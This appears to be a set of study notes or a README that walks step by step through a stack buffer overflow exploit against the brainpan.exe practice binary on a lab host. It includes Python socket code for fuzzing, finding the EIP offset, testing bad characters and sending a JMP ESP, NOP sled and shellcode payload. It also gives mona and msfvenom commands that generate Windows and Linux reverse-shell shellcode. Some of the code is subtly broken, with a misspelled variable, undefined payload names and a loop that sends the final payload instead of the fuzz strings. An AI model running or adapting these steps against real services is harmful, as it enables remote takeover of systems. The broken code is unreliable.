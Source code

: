 # Buff_Over_flo

    //****buffer overflow steps -- use immunity debugger-open the file, sitting betwin file and attack host, view the ram space of the file running
    //1. code to test how long a input strings will make the app crashed. in 100 byte level
    //2. exactly the longth to EIP (4 bytes), the offset
    //3. check how long strings the ESP can accept, we need almost 400-500 bytes.
    //4. send the paylaod, offset + EIP(the address of ESP) + PAD ("\x90"*16) + shellcode(write to ESP)

    //code for setp1
    buffer =["A"]
    counter = 100

    while len(buffer) <=30:
        buffer.append("A"*counter)
        counter += 100

    for i in buffer:
        buffer = "A"*524 + "\xf3\x12\x17\x31"+ pad + shell
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        print(len(bufer), "Sent! ")
        s.close()
    //here the length is the value of offset
    
    //step 2 codes
        //buffer > offset ,but < offset +100
        //we tried to sent the length of buffer to get exactly offset, to make B to write on EIP addr
        buffer ="A"*x + "B"*4
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect = s.connect(('192.168.56.117',9999))
        s.send(buffer)
        data = s.recv(1024)
        s.close()
    
    //step3
        //change buffer = "A"*offset + "B"*4 + "C"*500 (500bytes is enough for revershell )
        //use same code as step2
        // send the bad char strings to test badchar which is not accept by the target software, ohter than \x00
        //the payload is "\x01 -- \xff"
            !mona bytearray -b "\x00"  //used to generate badchar string
    //step4
        buffer = "A"*offset + (the address of ESP) + PAD + shellcode
        //for ESP, we need to map the opcode(operation code) of JMP ESP, that is \xff\xe4.
            //!mona modules (mona.py) -- to check the sofatware is protected or not,  if it is false, we can find the addr os EIP, by find \xff\xe4
            //!mona find -s "\xff\xe4" -m brainpan.exe, we get a addr 311712f3, but the addr in the ram is "\xf3\x12\x17\x31"  //!mona jmp -r esp -cpb "\x00"
            //!mona jmp -r esp -cpb "\x00"  to get esp, that is the first line address
        //  reverse shellcode of bytes format,
            //msfvenom -p windows/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use to test on win host)
            //msfvenom -p linux/x86/shell_reverse_tcp LHOST=xx LPORT=xx EXITFUNC=thread -f c -a x86 -b "\x00" (use on kali)
